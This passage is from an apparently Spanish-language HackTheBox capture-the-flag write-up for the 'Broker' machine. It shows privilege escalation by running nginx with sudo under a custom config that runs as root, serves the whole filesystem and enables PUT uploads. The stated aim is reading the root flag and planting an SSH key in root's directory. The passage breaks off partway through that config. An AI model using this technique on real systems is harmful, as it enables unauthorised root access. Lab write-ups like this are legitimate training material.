 - Ahora lo ejecutamos.

```bash
activemq@broker:/tmp$ sudo nginx -c /tmp/nginx.conf 
```

- Lo vemos.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/broker/5.png">
</p>

- Ya podemos ver la flag de root.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/broker/6.png">
</p>

- Algo que podemos hacer para conectarnos por `ssh` podemos poner el método `PUT` para subir la `id_rsa` ya que el usuario `root` cuenta con el directorio .`ssh` solamente tenemos que cambiar el puerto.

```bash
activemq@broker:/tmp$ cat nginx.conf 
user root;

events {
	worker_connections 768;
	# multi_accept on;
}

http {
	server {
		listen     1237;
		root /;
		autoindex on;
		dav_methods PUT;
```